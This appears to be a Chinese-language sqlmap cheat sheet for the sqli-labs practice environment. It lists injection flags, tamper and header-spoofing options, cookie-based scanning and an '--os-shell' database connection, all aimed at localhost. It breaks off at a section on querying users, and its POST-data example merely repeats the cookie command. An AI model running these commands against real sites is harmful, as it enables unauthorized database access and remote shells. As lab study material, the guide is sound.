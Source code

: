 ```html

sqlmap -u "http://127.0.0.1/sqli-labs/Less-4/?id=1" --dbms="MySQL"     #指定其数据库为mysql 
其他数据库：Altibase,Apache Derby, CrateDB, Cubrid, Firebird, FrontBase, H2, HSQLDB, IBM DB2, Informix, InterSystems Cache, Mckoi, Microsoft Access, Microsoft SQL Server, MimerSQL, MonetDB, MySQL, Oracle, PostgreSQL, Presto, SAP MaxDB, sqli-labste, Sybase, Vertica, eXtremeDB
sqlmap -u "http://127.0.0.1/sqli-labs/Less-4/?id=1" --random-agent   #使用任意的User-Agent爆破
sqlmap -u "http://127.0.0.1/sqli-labs/Less-4/?id=1" --proxy="http://127.0.0.1:8080"    #指定代理
当爆破HTTPS网站会出现超时的话，可以使用参数 --delay=3 --force-ssl
sqlmap -u "http://127.0.0.1/sqli-labs/Less-4/?id=1" --technique T    #指定时间延迟注入，这个参数可以指定sqlmap使用的探测技术，默认情况下会测试所有的方式，当然，我们也可以直接手工指定。
支持的探测方式如下：
　　B: Boolean-based blind SQL injection（布尔型注入）
　　E: Error-based SQL injection（报错型注入）
　　U: UNION query SQL injection（可联合查询注入）
　　S: Stacked queries SQL injection（可多语句查询注入）
　　T: Time-based blind SQL injection（基于时间延迟注入）

sqlmap -d "mysql://root:root@127.0.0.130:3306/mysql" --os-shell   #知道网站的账号密码直接连接

-v3                   #输出详细度  最大值5 会显示请求包和回复包
--threads 5           #指定线程数
--fresh-queries       #清除缓存
--flush-session       #清空会话，重构注入 
--batch               #对所有的交互式的都是默认的
--random-agent        #任意的http头
--tamper base64encode            #对提交的数据进行base64编码
--referer http://www.baidu.com   #伪造referer字段

--keep-alive     保持连接，当出现 [CRITICAL] connection dropped or unknown HTTP status code received. sqlmap is going to retry the request(s) 保错的时候，使用这个参数
```

#### 1、不需要登陆的站点，探查数据库版本，脚本类型等内容

```html
sqlmap -u  "http://127.0.0.1/sqli-labs/Less-1/?id=1"  #探测该url是否存在漏洞
```

#### 2、需要登录的站点

```html
sqlmap -u  "http://127.0.0.1/sqli-labs/Less-1/?id=1"   --cookie="抓取的cookie"  #探测该url是否存在漏洞
```

#### 3、需要Post提交数据的url

```html
sqlmap -u  "http://127.0.0.1/sqli-labs/Less-1/?id=1"   --cookie="抓取的cookie"  #探测该url是否存在漏洞
```

#### 4、查询数据库

​	1、users查询
